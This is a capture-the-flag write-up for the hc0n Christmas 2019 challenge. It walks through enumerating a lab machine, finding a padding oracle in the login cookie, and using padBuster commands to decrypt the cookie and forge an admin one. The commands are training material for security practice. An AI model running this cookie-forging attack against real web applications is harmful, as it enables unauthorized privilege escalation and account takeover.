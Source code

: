 # hc0n Christmas CTF - 2019

![](../../.gitbook/assets/41d0cdc8d99a8a3de2758ccbdf637a21.jpeg)

## Enumeration

I started **enumerating the machine using my tool** [**Legion**](https://github.com/carlospolop/legion):

![](../../.gitbook/assets/image%20%2821%29.png)

There are 2 ports open: 80 \(**HTTP**\) and 22 \(**SSH**\)

In the web page you can **register new users**, and I noticed that **the length of the cookie depends on the length of the username** indicated:

![](../../.gitbook/assets/image%20%28311%29.png)

![](../../.gitbook/assets/image%20%28318%29.png)

And if you change some **byte** of the **cookie** you get this error:

![](../../.gitbook/assets/image%20%28109%29.png)

With this information and[ **reading the padding oracle vulnerability**](../../cryptography/padding-oracle-priv.md) I was able to exploit it:

```bash
perl ./padBuster.pl http://10.10.231.5/index.php "GVrfxWD0mmxRM0RPLht/oUpybgnBn/Oy" 8 -encoding 0 -cookies "hcon=GVrfxWD0mmxRM0RPLht/oUpybgnBn/Oy"
```

![](../../.gitbook/assets/image%20%2853%29.png)

![](../../.gitbook/assets/image%20%28173%29.png)

**Set user admin:**

```bash
perl ./padBuster.pl http://10.10.231.5/index.php "GVrfxWD0mmxRM0RPLht/oUpybgnBn/Oy" 8 -encoding 0 -cookies "hcon=GVrfxWD0mmxRM0RPLht/oUpybgnBn/Oy" -plaintext "user=admin"
```

![](../../.gitbook/assets/image%20%28271%29.png)



